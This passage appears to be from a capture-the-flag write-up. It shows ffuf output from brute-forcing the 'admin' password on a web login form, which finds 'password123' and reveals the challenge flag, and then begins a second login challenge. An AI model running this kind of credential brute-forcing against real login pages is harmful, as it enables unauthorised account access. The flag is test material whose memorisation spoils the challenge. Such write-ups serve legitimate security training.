 ```bash
 :: Header           : User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : u=admin&p=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 50
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Invalid username or password.
________________________________________________

password123             [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 32ms]ors: 0 ::
:: Progress: [9436/9436] :: Job [1/1] :: 312 req/sec :: Duration: [0:00:18] :: Errors: 0 ::
```

We found a valid password. when we login using `admin:password123`. We get the flag.

![login_1-flag.png](files/login_1-flag.png#center)

Flag: `CyberYami{congr4ts_y0u_l0gg3d_1n_succ3s5fully}`

### Login 2

URL: `http://3.7.252.130/Login2/index.php` \
Point: `50` \
Description: _Really just login, That's it._

![login_2-1.png](files/login_2-1.png#center)
